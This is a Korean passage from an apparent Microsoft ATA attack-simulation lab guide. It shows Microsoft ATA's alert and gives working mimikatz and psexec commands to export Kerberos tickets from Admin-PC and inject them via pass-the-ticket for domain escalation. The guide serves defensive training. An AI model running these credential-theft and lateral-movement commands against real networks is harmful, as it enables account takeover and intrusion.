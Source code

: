 이 명령의 결과 예가 아래 이미지에 나와 있습니다.

![klist](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig23.png)

위의 이미지에서 볼 수 있듯이, 이 시점에서 RonHD의 *Admin-PC*에 액세스하기 위해 RonHD의 합법적인 자격 증명을 사용했음을 확인하는 이 명령 프롬프트에서 *RonHD*로 가장하고 있습니다.

이 때 아래와 같이 Microsoft ATA에서 비정상적인 프로토콜 구현에 대한 경고를 표시했습니다. 이 경고는 overpass-the-hash가 NTLM을 사용(결과적으로 RC4 사용)하기 때문에 표시됩니다. 방어자의 관점에서 보면 *Victim-PC*에서 RonHD의 계정이 도메인 컨트롤러에 대해 성공적으로 인증되었음을 알 수 있습니다.  이제 조사를 시작할 수 있습니다.

![비정상적인 프로토콜](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig24.png) 

<a id="domain-escalation" class="xliff"></a>
### 도메인 권한 상승

이제 공격자는 *Admin-PC*에 액세스할 수 있습니다. 이 컴퓨터는 이전 정찰에서 높은 권한 수준을 가진 계정인 *NuckC*를 손상시키는 훌륭한 공격 벡터로 식별된 컴퓨터입니다. 공격자는 이제 *Admin-PC*로 이동하여 도메인 내에서 자신의 권한을 상승시키려고 합니다.

이렇게 하기 위해 공격자는 [Pass-the-Hash](https://www.microsoft.com/security/sir/strategy/default.aspx#!pass_the_hash_defenses) 공격을 수행하여 *Admin-PC*로 이동할 수 있도록 자격 증명을 수집합니다.   

*RonHD* 컨텍스트에서 실행되는 새로운 명령 프롬프트에서, 해당 라이브러리에서 mimikatz가 있는 파일 시스템 위치로 이동한 후 다음 명령을 실행합니다.

    xcopy mimikatz \\admin-pc\c$\temp

그런 다음 mimiKatz를 원격으로 실행하여 아래 명령을 통해 *Admin-PC*에서 모든 Kerberos 티켓을 내보냅니다.

    psexec.exe \\admin-pc -accepteula cmd /c (cd c:\temp ^& mimikatz.exe “privilege::debug” “sekurlsa::tickets /export” ^& “exit”)

아래 명령을 사용하여 이 티켓을 다시 *Victim-PC*에 복사합니다.

    xcopy \\admin-pc\c$\temp c:\temp\tickets

이 명령의 결과 예가 아래 이미지에 나와 있습니다.

![XCopy](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig25.png) 

이 작업은 공격자가 *mimikatz* 도구를 *Admin-PC*에 성공적으로 복사했음을 보여줍니다. 공격자는 mimikatz를 원격으로 실행하여 *Admin-PC*에서 모든 Kerberos 티켓을 내보냈습니다.  마지막으로, 공격자는 결과를 다시 *Victim-PC*에 복사합니다. 이제 *NuckC*의 자격 증명을 얻기 위해 NuckC의 컴퓨터를 이용하지 않아도 됩니다.

다음 단계는 *NuckC* TGT를 찾는 것입니다. 이렇게 하려면 *NuckC*가 아닌 kirbi 파일(즉 "ADMIN-PC$")을 찾아서 삭제하고 *NuckC* 티켓만 두어야 합니다.

이 명령의 결과 예가 아래 이미지에 나와 있습니다.

![탐색기](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig26.png) 

이 시점에서 공격자는 티켓을 메모리에 전달하여 이 티켓을 통해 *NuckC*인 것처럼 리소스에 액세스할 수 있습니다. 공격자는 자격 증명을 가져와 중요한 리소스에 액세스하도록 *Victim-PC*의 메모리로 티켓을 가져올 준비가 되었습니다. 이 작업은 [Pass-the-Ticket](https://blogs.technet.microsoft.com/windowsserver/tag/pass-the-ticket/) 공격을 통해 수행됩니다.

파일 시스템에서 *mimikatz*가 있는 위치인 상승된 명령 프롬프트에서 다음 명령을 실행합니다.

    mimikatz.exe “privilege::debug” “kerberos::ptt c:\temp\tickets” “exit”
